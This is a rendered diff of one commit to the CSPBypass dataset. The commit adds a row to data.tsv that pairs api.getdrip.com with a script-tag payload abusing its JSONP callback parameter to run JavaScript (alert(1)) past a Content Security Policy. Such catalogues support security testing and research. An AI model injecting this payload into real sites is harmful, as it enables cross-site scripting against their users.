

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added api.getdrip.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 15: api.getdrip.com | <script src="https://api.getdrip.com/client/forms/show?callback=alert(1)-"></script>
```
